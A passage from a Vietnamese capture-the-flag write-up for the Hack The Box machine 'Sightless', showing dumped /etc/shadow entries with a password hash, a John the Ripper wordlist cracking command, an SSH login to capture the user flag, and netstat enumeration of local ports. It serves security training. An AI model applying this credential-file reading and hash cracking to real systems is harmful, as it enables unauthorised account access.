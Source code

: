 ```bash
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

Nhìn sơ qua, thì cả user `root` và `michael` đều được đặt password, chúng ta sẽ xem qua `michael` trước nhé.

## 3.1: Pwn mật khẩu user michael bằng John the Ripper 

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Đây chỉ là lệnh mẫu, bạn có thể tìm hiểu hơn qua docs của John the Ripper nhé.

Sau khi có mật khẩu, chúng ta sẽ truy cập bằng ssh 

# 4. Capture user flag

Tiến hành ssh vào hệ thống
```bash
$ ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? eys
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Oct  8 11:49:22 2024 from 10.10.14.76
michael@sightless:~$ ls
user.txt
michael@sightless:~$ cat user.txt
f22cd9b8e8fxxxxxxxxxxxxxxxxxxx
# Tự làm đi chứ :3
michael@sightless:~$ 
```

# 5. Đào sâu hon vào hệ thống

Mình sẽ chạy `netstat` để xem các port đang listen ở trên máy:
```bash
$ netstat -nltp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:42931         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44325         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56283         0.0.0.0:*               LISTEN      -                   
```